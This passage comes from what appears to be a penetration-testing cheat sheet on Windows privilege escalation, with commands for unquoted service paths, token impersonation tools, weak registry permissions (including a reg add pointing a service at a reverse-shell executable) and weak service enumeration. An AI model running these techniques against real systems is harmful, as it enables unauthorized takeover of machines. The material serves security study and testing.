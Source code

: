    ```powershell
   wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows"
   
   #Example
   #Auto
   #Puppet Agent                                            puppet
   #        C:\Puppet\Current Version\sys\ruby\bin\ruby.exe -rubygems "C:\Puppet\Current Version\service\daemon.rb"
   ```

2. Check for write access to the portions of the path that have spaces.  

3. Create an executable that matches the path before the space.

4. Reboot the system or restart the service to have it execute the program as the user assigned to the service

#### Token Manipulation

1. Token impersonation with Rotten Potato - https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/
2. Weaponized Rotten Potato:  Juicy Potato - https://github.com/ohpe/juicy-potato

#### Weak Registry Permissions

In Windows, services have a registry keys and those keys are located at: `HKLM\SYSTEM\CurrentControlSet\Services\<service_name>`

1. Check the permissions of the registry entry:

   ```powershell
   Get-Acl -Path HKLM:\SYSTEM\CurrentControlSet\Services\<service_name> | f1
   ```

2. Modify the ImagePath key of the registry to point to the payload path

   ```powershell
   reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\coyote\rev_shell.exe /f
   ```

3. Restart the service

   ```powershell
   net stop [service name] && net start [service name].
   ```

#### Weak Service Attacks

1. Look for services created by SYSTEM with weak permissions

   ```bash
   ##### Cmd prompt
   # Older Win
   tasklist /SVC
   # Show all service info (can change all to active/inactive)
   sc queryex type=service state=all
   # Show names only
   sc queryex type=service state=all | find /i "SERVICE_NAME:"
   
   ##### PowerShell
   # Cleanest view
   Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}
   # OR
   Get-Service
   ```
